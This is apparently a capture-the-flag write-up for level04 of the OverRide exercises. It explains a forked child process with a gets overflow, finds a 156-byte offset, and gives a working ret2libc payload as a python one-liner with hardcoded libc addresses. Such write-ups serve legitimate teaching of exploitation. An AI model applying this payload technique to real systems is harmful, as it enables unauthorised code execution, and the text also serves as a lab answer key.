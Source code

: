 # level04

## using gdb

follow the child process in gdb:

```
set follow-fork-mode child
```

## the code

The code forks in father and son.
The father track the son process using ptrace. If something get wrong it sends a signal to the son, who
will hang out (instead of terminating or segfaulting).
In the son, a buffer of size 128 seams eager to overflow with the data provided by a gets method.
But...
When we try to overflow, the code hang up the process instead of segfault. Which is not a problem.

## offset

I searched for the offset by dichotomy, and found:

```sh
level04@OverRide:~$ (python -c 'print("A" * 156)') | ./level04
Give me some shellcode, k
Give me some shellcode, k
```

offset is 156

## ret2libc

We reuse the addresses found in level01
(python -c 'print("A" * 156 + "\xd0\xae\xe6\xf7" + "\x70\xeb\xe5\xf7" + "\xec\x97\xf8\xf7")'; cat) | ./level04
